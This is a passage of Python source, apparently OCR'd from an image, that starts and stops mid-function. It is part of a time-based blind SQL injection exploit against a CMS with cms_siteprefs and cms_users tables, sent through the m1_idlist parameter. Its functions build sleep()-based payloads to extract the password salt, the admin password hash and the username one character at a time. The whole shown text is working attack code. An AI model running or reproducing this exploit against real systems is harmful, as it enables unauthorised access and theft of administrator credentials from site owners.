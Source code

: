 ```python
            beautify_print_try(temp_salt)
            payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_siteprefs+where+sitepref_value+like+0x" + ord_salt_temp + "25+and+sitepref_name+like+0x736974656d61736b)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            salt = temp_salt
            ord_salt = ord_salt_temp
    flag = True
    output += '\n[+] Salt for password found: ' + salt

def dump_password():
    global flag
    global password
    global output
    ord_password = ""
    ord_password_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_password = password + dictionary[i]
            ord_password_temp = ord_password + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_password)
            payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_users"
            payload += "+where+password+like+0x" + ord_password_temp + "25+and+user_id+like+0x31)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            password = temp_password
            ord_password = ord_password_temp
    flag = True
    output += '\n[+] Password found: ' + password

def dump_username():
    global flag
    global db_name
    global output
    ord_db_name = ""
    ord_db_name_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_db_name = db_name + dictionary[i]
            ord_db_name_temp = ord_db_name + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_db_name)
            payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_users+where+username+like+0x" + ord_db_name_temp + "25+and+user_id+like+0x31)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
```